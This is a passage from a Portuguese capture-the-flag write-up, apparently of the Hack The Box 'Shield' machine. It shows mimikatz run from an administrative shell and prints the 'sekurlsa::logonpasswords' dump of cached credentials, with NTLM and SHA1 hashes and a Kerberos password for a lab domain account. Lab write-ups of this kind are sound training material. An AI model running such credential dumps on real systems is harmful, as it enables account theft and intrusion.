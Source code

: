 Agora em nosso shell administrativo, podemos executá-lo.

<img src="/htb/htb-shield-14.png">

Com o comando `sekurlsa::logonpasswords`, obtemos o dump de todos as senhas em cache.

```

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 66298 (00000000:000102fa)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 9/7/2021 5:14:07 PM
SID               : S-1-5-90-0-1
        msv :
         [00000003] Primary
         * Username : SHIELD$
         * Domain   : MEGACORP
         * NTLM     : 9d4feee71a4f411bf92a86b523d64437
         * SHA1     : 0ee4dc73f1c40da71a60894eff504cc732de82da
        tspkg :
        wdigest :
         * Username : SHIELD$
         * Domain   : MEGACORP
         * Password : (null)
        kerberos :
         * Username : SHIELD$
         * Domain   : MEGACORP.LOCAL
         * Password : cw)_#JH _gA:]UqNu4XiN`yA'9Z'OuYCxXl]30fY1PaK,AL#ndtjq?]h_8<Kx'\*9e<s`ZV uNjoe Q%\_mX<Eo%lB:NM6@-a+qJt_l887Ew&m_ewr??#VE&
        ssp :
        credman :

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : SHIELD$
Domain            : MEGACORP
Logon Server      : (null)
Logon Time        : 9/7/2021 5:14:07 PM
SID               : S-1-5-20
        msv :
         [00000003] Primary
         * Username : SHIELD$
         * Domain   : MEGACORP
         * NTLM     : 9d4feee71a4f411bf92a86b523d64437
```